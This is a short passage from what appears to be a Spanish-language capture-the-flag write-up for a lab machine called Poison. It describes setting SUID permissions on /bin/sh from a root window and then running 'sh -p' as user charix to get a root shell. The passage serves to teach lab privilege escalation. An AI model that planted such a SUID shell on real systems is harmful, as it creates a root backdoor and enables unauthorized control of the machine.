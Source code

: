 Se nos abre esta `ventana` en la que estamos como el usuario `root`

![](/assets/img/Poison/image_7.png)

Le damos `permisos SUID` a la `/bin/sh`

![](/assets/img/Poison/image_8.png)

Nos `convertimos` en usuario `root`

```
charix@Poison:~ % sh -p
Cannot read termcap database;
using dumb terminal settings.
# whoami
root
```

